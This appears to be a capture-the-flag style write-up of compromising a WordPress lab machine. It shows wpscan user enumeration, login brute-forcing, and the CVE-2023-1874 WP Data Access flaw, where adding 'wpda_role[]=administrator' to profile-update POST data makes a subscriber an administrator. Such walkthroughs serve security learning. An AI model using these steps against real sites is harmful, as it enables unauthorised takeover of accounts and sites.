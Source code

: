 
![[Pasted image 20240920164322.png]]

We also found the wp-admin login page, running wp-scan I found these two usernames: 

```
[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:00 <==> (10 / 10) 100.00% Time: 00:00:00

[i] User(s) Identified:

[+] XXXXX
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Rss Generator (Passive Detection)
 |  Wp Json Api (Aggressive Detection)
 |   - http://10.10.72.131/wordpress/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)
[+] XXXXX
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)
```


Brute forcing the login page via python (or hydra), I was able to obtain the credentials to use  to then login via XXXX.


I ran wp-scan which led me to finding this vulnerability on packet security following collaborative research into vulnerabilities. 

Packet Security: https://packetstormsecurity.com/files/171825/WordPress-WP-Data-Access-5.3.7-Privilege-Escalation.html

```
Description: WP Data Access <= 5.3.7 – Authenticated (Subscriber+) Privilege Escalation 
Affected Plugin: WP Data AccessPlugin Slug: wp-data-accessAffected Versions: <= 5.3.7CVE ID: CVE-2023-1874CVSS 
Score: 7.5 (High)CVSS Vector:  CVSS:3.1/AV:N/AC:H/PR:L/UI:N/S:U/C:H/I:H/A:HResearcher/s: Chloe Chamberland Fully Patched Version: 5.3.8


The WP Data Access plugin for WordPress is vulnerable to privilege escalation in versions up to, and including, 5.3.7. This is due to a lack of authorization checks on the multiple_roles_update function. This makes it possible for authenticated attackers, with minimal permissions such as a subscriber, to modify their user role by supplying the ‘wpda_role[]‘ parameter during a profile update. This requires the ‘Enable role management’ setting to be enabled for the site.
```


In the request I captured, all I needed to do was append the `wpda_role[]=administrator` parameter to the POST data where the other form fields (like `first_name`, `last_name`, etc.) are being submitted. 
### Original POST Data:
```plaintext
_wpnonce=ddd142855f&_wp_http_referer=%2Fwordpress%2Fwp-admin%2Fprofile.php&from=profile&checkuser_id=2&color-nonce=bc3e321271&admin_color=fresh&admin_bar_front=1&first_name=bob&last_name=bob&nickname=bob&display_name=bob+bob&email=bob%40localhost.com&url=&description=hiiii&pass1=&pass2=&action=update&user_id=2&submit=Update+Profile
```

